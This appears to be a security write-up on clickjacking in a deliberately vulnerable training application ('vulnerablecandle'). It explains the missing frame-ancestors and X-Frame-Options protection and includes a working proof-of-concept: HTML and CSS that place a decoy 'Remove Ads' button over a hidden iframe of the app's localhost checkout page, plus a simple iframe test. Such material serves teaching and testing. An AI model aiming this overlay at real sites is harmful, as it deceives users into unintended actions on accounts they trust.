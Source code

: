 # Clickjacking
This attack tricks users into clicking on a button, link, or other interactable on an attacker controlled/compromised website that performs an unintendded action on an authenticated and/or trusted site.

## Exploitation
**Prerequisites:** Authenticated
**Location:** _Entire Application_

Clickjacking is present since the X-Frame-Options / Content-Security-Policy: frame-ancestors directive are both not properly implemented on the application.  For exploitation a more intricately designed website can be made to simulate a realistic attacker website meant to scam users authenticated to vulnerablecandle, the attack can be tested through this example HTML text:

    # HTML
    <button style="z-index: 2; position: absolute; margin-left: 100px; margin-top: 30px;" class="button"> Remove Ads</button>
    <div style="overflow: hidden; margin: 15px auto; max-width: 50px;">
        <iframe scrolling="no" src="http://localhost:4200/checkout" style="z-index: 1; position: absolute; border: 0px none; margin-left: -650px; height: 200px; margin-top: -100px; width: 200px;"></iframe>
    </div>

    # CSS
    .button {
    background-color: #4CAF50;
    border: none;
    color: white;
    padding: 32px 32px;
    text-align: center;
    text-decoration: none;
    display: block;
    font-size: 16px;
    margin: 4px 2px;
    cursor: pointer;
    }

For the sake of simplcity the recommended way to test for Clickjacking is simply testing an iframe like below:

    <html>
        <body>
            <iframe src="http://localhost:4200/checkout"></iframe>
        </body>
    </html>
    
